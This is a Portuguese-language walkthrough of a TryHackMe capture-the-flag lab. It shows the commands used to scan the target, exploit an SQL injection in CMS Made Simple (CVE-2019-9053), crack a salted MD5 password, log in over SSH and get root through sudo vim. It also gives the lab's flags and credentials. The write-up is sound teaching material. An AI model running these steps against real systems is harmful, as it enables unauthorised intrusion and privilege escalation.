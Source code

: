 # Simple CTF

## config VPN

- [https://tryhackme.com/access](https://tryhackme.com/access)

![Untitled](Untitled.png)

```bash
	sudo openvpn file.ovpn
```

![Untitled](Untitled%201.png)

![Untitled](Untitled%202.png)

## How many services are running under port 1000?

```bash
sudo nmap -n -sV -O -A 10.10.6.14
```

- Perceba que o ssh tem modo anonimous
- Entao se quiser entrar sinta-se a vontade

```bash
fta 10.10.6.14
```

- `2`

## What is running on the higher port?

- `ssh`

## What's the CVE you're using against the application?

```bash
gobuster -u http://10.10.6.14/ -w wordlist/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

- [`http://10.10.161.147/simple/`](http://10.10.161.147/simple/)

![Untitled](Untitled%203.png)

- Procurando uma CVE por essa versao

![Untitled](Untitled%204.png)

![Untitled](Untitled%205.png)

- `CVE-**2019-9053**`

## To what kind of vulnerability is the application vulnerable?

- `SQLI`

## What's the password?

- [`http://10.10.6.14/simple/admin/login.php`](http://10.10.6.14/simple/admin/login.php)
- Baixando a CVE que achamos
- Vendo o Codigo ele da um exemplo
    
    ![Untitled](Untitled%206.png)
    
- Entao
    - O Python3 nao funciona
    
    ```bash
    python2 exploit.py -u http://10.10.6.14/simple/ --crack -w wordlist/SecLists-master/Passwords/darkweb2017-top100.txt
    ```
    
    ![Untitled](Untitled%207.png)
    
- Pra isso vamos instalar o que precisa, `importrequests`
    
    ```bash
    pip2 install requests
    ```
    
    ![Untitled](Untitled%208.png)
    
- Entao vamos instalar esse `termcolor`
    
    ```bash
    pip2 install termcolor
    ```
    
- Agora sim
    
    ```bash
    python2 exploit.py -u http://10.10.6.14/simple/ --crack -w wordlist/SecLists-master/Passwords/darkweb2017-top100.txt
    ```
    
    ![Untitled](Untitled%209.png)
    
- Vamos procurar que tipo de senha eh essa
    - [https://www.kali.org/tools/hash-identifier/](https://www.kali.org/tools/hash-identifier/)
    
    ```bash
    python hash-id.py
    ```
    
- Agora vamos colocar a `Password found` no hadh-id
    
    ![Untitled](Untitled%2010.png)
    
- Entao como provavelmente uma criptografia de md5
- Vamos crackear esse md5
- Vamos procurar `md5 crack salt` pois temos o salt
    - [https://www.dcode.fr/md5-hash](https://www.dcode.fr/md5-hash)
    
    ![Untitled](Untitled%2011.png)
    
- Agora temos a senha `secret` de `mitch`

## Where can you login with the details obtained?

- Agora vamos logar no shh
- Eh possivel tambem entrar no site agora
- `ssh`

## What's the user flag?

```bash
ssh mitch@10.10.6.14 -p 2222
secret
whoami
ls
cat user*
```

![Untitled](Untitled%2012.png)

- `G00d j0b, keep up!`

## Is there any other user in the home directory? What's its name?

```bash
ls /home
```

![Untitled](Untitled%2013.png)

- `sunbath`

## What can you leverage to spawn a privileged shell?

```bash
sudo -l
```

![Untitled](Untitled%2014.png)

- `vim`

## What's the root flag?

- Vamos procurar uma elevacao de privilegio com o vim
    - privilege escalation vim
    - [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)
- Entao vamos usar o comando com `sudo` na frente claro
    
    ```bash
    sudo vim -c ':!/bin/sh'
    ```
    
    ![Untitled](Untitled%2015.png)
    
    - Batar dar <ENTER> quando ele mostrar esses caracteres

```bash
ls /root
cat /root/root.txt
```

- `W3ll d0n3. You made it!`

---

- Se quiser sair do vim
    
    ```bash
    <ESC> or <INS>
    :q!
    ```
